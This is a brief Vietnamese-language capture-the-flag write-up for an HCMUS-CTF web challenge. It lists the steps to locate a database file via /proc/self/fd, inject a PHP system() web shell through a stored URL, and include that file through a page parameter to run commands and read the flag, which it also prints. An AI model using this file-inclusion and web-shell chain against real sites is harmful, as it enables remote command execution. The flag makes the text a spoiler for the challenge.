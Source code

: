 # Solution

Bruteforce file descriptor để tìm đến file lưu database: `/proc/self/fd/11`

sau đó store một url với giá trị:

```
http://test.com#<?=system($_GET('c')($_GET['d']))?>
```

access tới
<http://103.245.250.31:32184/index.php?page=file:///proc/self/fd/11&c=system&d=cat%20/71c99-flag-e9c94.txt>

lấy được flag

Flag:
**HCMUS-CTF{r@inb0w_hAv3_7_c0loR_wh1le_URL_HavE_8_p@rtS}**